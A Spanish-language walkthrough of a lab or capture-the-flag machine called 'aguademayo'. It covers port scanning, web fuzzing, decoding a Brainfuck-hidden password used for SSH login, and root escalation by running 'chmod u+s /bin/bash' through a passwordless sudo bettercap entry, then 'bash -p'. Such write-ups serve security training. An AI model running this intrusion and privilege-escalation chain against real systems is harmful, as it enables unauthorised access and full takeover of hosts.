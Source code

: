 
> Habilidades: Fuerza bruta,


# RECONOCIMIENTO

## Nmap

Realizamos el primer sondeo a la ip para averiguar que puertos están abiertos:

~~~ bash
nmap --open -p- -n -sS -Pn $ip -oG FirsScan
~~~

![first_nmap_scan](https://i.imgur.com/NssolyM.png)

- `--open`: Nos muestre los puertos abiertos.
- `-p-`: Escanear todo el rango de puertos (65535)
- `-sS`: Escaneo TCP SYN, técnica más sigilosa para determinar el estado del puerto.
- `-n`: No aplicar resolución DNS.
- `-Pn`: Deshabilitar el descubrimiento de host, asumiendo que el objetivo se encuentra activo.
- `-oG`: Exportar el escaneo a un formato `Grepable`, util para extraer información.
- 
### ENUMERAR SERVICIOS

~~~ bash
nmap -sVC -p 22,80 172.17.0.2 -oN ServicesScan
~~~

![ports_scan](https://github.com/wilasky/images/blob/master/ServicesScan.png?raw=true)


## Http Service

Vemos el puerto `80` que corresponde a un servicio `http`, veamos que hay en él. Podemos usar la herramienta `whatweb` para listar las tecnologías detectadas en el servidor

~~~ bash
whatweb http://172.17.0.2
~~~

![web](https://github.com/user-attachments/assets/970206d2-801c-41fc-9bc5-d82bae6a4533)

## Fuzzing

Lo siguiente que haremos será intentar descubrir posibles directorios existentes en este servicio web, en este caso podemos usar cualquier herramienta de fuzzing, usaré `wfuzz` y `gobuster`
### Wfuzz

~~~ bash
wfuzz -c --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 http://aguademayo.local/FUZZ
~~~

![wfuzz_fuzzing](https://github.com/user-attachments/assets/118a1b0f-c47e-43e7-b0ae-481a9c397ec7)

- `-c`: Formato colorizado
- `--hc=404`: Ocultar el código de estado 404 (No encontrado)
- `-w`: Especificar un diccionario de palabras
- `-t 200`: Dividir el proceso en 200 hilos, agilizando la tarea

### Gobuster

~~~ bash
gobuster dir -u http://aguademayo.local -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200
~~~

![gobuster fuzzing](https://github.com/user-attachments/assets/53042682-8d30-463e-87b2-1447df299489)

- `dir`: Modo de descubrimiento de directorios y archivos
- `-u`: Dirección URL
- `-w`: Diccionario a usar
- `-t 200`: Establecer 200 subprocesos 

Podemos ver que en ambos casos se ha descubierto el directorio `images`, vamos a ver que contiene con `firefox`, o si no te gusta abandonar la terminal, con `curl`

~~~ bash
curl -sL -X GET http://172.17.0.2/images
~~~

![curl a images](https://github.com/user-attachments/assets/7a09eafc-ab53-485c-9079-72c92a91e74c)

- `-s`: No mostrar progreso o error de la solicitud
- `-L`: Habilitar el redireccionamiento
- `-X`: Especificar el método HTTP a usar

![dir images](https://github.com/user-attachments/assets/502fede3-bd5b-440d-97ab-02620d42bbe3)

Vemos un archivo  `agua_ssh.jpg`, procedemos a traerla a nuestra máquina y ver de qué se trata

![imagen_ssh](https://github.com/user-attachments/assets/8757624b-9779-4469-af7c-4b72bf5c5fcc)

~~~ bash
wget http://aguademayo.local/images/agua_ssh.jpg
~~~

![wget agua_ssh](https://github.com/user-attachments/assets/90bbcbd2-1463-4918-a107-7b0b448d23b3)

El nombre del archivo `agua_ssh.jpg` me parece un tanto raro, ya que contiene `ssh` en el nombre, esto me hace creer que `agua` es un usuario válido en la máquina.

Si hacemos un análisis del archivo o imprimimos los caracteres de la imagen, no encontramos mayores pistas

## Exiftool Analysis

~~~ bash
exiftool agua_ssh.jpg
~~~

![exiftool_analysis](https://github.com/user-attachments/assets/69759702-ede8-411b-bc90-af525c59fce0)


## Strings

~~~ bash
strings agua_ssh.jpg
~~~

![listar caracteres](https://github.com/user-attachments/assets/8aba8f9d-253a-4533-a0e2-1528cdcaa042)


# Intrusión
---
## Brainfuck Decode

Si vemos el código fuente podemos ver algo inusual al final del todo en un comentario HTML

![web codigo raro](https://github.com/user-attachments/assets/467905dc-b906-47e8-9f9b-a92ebbefd7df)

Como no sabía a qué me enfrentaba, lo primero que hice fue buscar este comentario HTML en Google

![decode ](https://github.com/user-attachments/assets/a8bfb2fb-b654-494a-bb43-81f6d1be466a)

Podemos ver que hay un mensaje escrito en lenguaje Brainfuck, así que lo decodificaremos con ayuda de esta web `https://dcode.fr/brainfuck-language`
**No olvidemos quitar los caracteres del comentario HTML** (`<!--` y `-->`)

![decrypt](https://github.com/user-attachments/assets/0d8e55e6-bd5e-4690-b69a-3f77d109afc4)

Vemos que el mensaje escondido se trata de la palabra `bebeaguaqueessano`, quizá sea la contraseña del usuario `agua`, por lo que probamos conectarnos por `ssh`

~~~ bash
ssh agua@aguademayo.local
~~~

![entramos por ssh](https://github.com/user-attachments/assets/d00de753-2e0c-4d32-b543-4c7da29f1fb8)


# Escalada de privilegios
---
## Tratamiento TTY

Una vez tenemos acceso, haremos un tratamiento de la TTY para limpiar la pantalla con `Ctrl + L`, para esto cambiaremos el valor de la variable `$TERM`

~~~ bash
export TERM=xterm
~~~

## Sudoers

Primeramente veremos si tenemos privilegios `sudo` con el siguiente comando

~~~ bash
sudo -l
~~~

![sudo -l](https://github.com/user-attachments/assets/4c4df56f-36ed-4d14-87f8-5df9ce7673c0)

- `-l`: Enumerar los comandos permitidos (o prohibidos) invocables por el usuario en la máquina actual


Existe `bettercap` en la máquina y podemos ejecutarlo sin proporcionar contraseña, ejecutaremos el binario

~~~ bash
sudo bettercap
~~~

![exec bettercap with sudo](https://github.com/user-attachments/assets/8b2b3182-7951-491f-a10f-8ef29cd2139e)

Veamos el panel de ayuda con el comando `help`

![bettercap help](https://github.com/user-attachments/assets/3752382d-c7d9-4f66-acbb-784d1a8385f3)

![help bettercap](https://github.com/user-attachments/assets/42e3730f-aa2b-414c-8185-d124b5e4cd7b)


## SUID Privilege Escalation

Esta opción (`!`) nos permite ejecutar un comando a nivel de sistema, así que podemos asignar el privilegio SUID a la `bash` para ejecutarla como `root`, para eso, lo haremos con el comando `chmod`, dentro de la consola interactiva de `bettercap` ejecutamos el siguiente comando

~~~ bash
! chmod u+s /bin/bash
~~~

También podemos hacer esto con un solo comando con la opción `-eval` 

~~~ bash
sudo bettercap -eval "! chmod u+s /bin/bash"
~~~

![cambiar el privilegio onliner](https://github.com/user-attachments/assets/48db4ad6-d528-42c2-a14d-f0fd8c97b612)

- `-eval`: Ejecutar un comando en la máquina


## Root time

Ahora supuestamente asignamos la capacidad de ejecutar `bash` como el usuario `root`, lo podemos verificar con el comando `ls -l /bin/bash` para listar los permisos.

![bash permisions](https://github.com/user-attachments/assets/d3d00e95-9394-47b6-8d64-6bb444c6eae4)

Así que ejecutamos `bash` como el propietario, y nos convertimos en el usuario `root`

~~~ bash
bash -p
~~~

- `-p`: Ejecutar como el usuario original

![bash como root](https://github.com/user-attachments/assets/3bdbe0a3-ad67-4758-80ed-03c209b20d9b)
